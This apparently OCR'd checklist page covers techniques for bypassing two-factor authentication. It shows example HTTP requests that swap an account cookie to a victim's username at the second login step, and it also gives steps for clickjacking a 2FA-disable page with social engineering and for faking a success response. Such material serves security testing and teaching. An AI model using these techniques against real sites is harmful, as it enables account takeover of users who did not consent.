 #### Bypassing two-factor authentication
[ ] Flawed two-factor verification logic
Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step
For example, the user logs in with their normal credentials in the first step as follows:

```
POST /login-steps/first HTTP/1.1 
Host: vulnerable-website.com 
... 
username=carlos&password=qwerty
```

They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK 
Set-Cookie: account=carlos 

GET /login-steps/second HTTP/1.1 
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=carlos 
... 
verification-code=123456`
```

In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=victim-user 
... 
verification-code=123456
```

[ ] Clickjacking on 2FA Disable Feature
```
1. Try to Iframe the page where the application allows a user to disable 2FA
2. If Iframe is successful, try to perform a  social engineering attack to manipulate  victim to fall in your trap.
```

 [ ] Response Manipulation
```
1. Check Response of the 2FA Request.
2. If you Observe "Success":false
3. Change this to "Success":true and see if it bypass the 2FA
```
